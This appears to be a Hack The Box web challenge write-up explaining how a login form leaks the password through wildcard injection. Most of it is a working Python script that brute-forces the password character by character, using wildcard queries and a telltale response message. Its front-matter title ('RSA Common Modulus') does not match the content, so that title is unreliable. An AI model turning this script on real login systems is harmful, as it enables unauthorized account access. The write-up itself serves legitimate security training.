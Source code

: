 ```yaml
---
title: RSA Common Modulus
date: 2020-11-15 00:00:00 +0200
categories: [Hack The Box, Challenges, Web]
tags: [web, injection, brute force]
---
```


We see that there is a form. At the bottom we can see the username we are supposed to use.
It doesn't take a genius to see that the password is most likely the flag.

While testing we see that we can send requests with data that follows `{'username':user, 'password':pass}`
Also, when the characters do appear in the right order in the password the request has a message `"No search results."` in it.

Thus we write a small python script to do just that:

```python
#!/usr/bin/python3
import requests
import string
import sys

# Get this from HTB
challenge_url = '178.128.40.63:31567' # CHANGE THIS

url = 'http://%s/login' % challenge_url
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

user = 'reese'
password = ''

finished = False
while not finished:
    for char in alphabet:

            query = f'{password}{char}*'
            data = {'username':user, 'password':query}

            r = requests.post(url, data=data)
            sys.stdout.write(f"\rTrying {password}{char}")

            if "No search results." in r.text: # Add character to password on successful login
                password += str(char)
                break
            
            if char == alphabet[-1]: # If reached last of characters, password must be finished 
                finished = True
                print(f"\rGot password for reese user: {password}")
```

And then you get the flag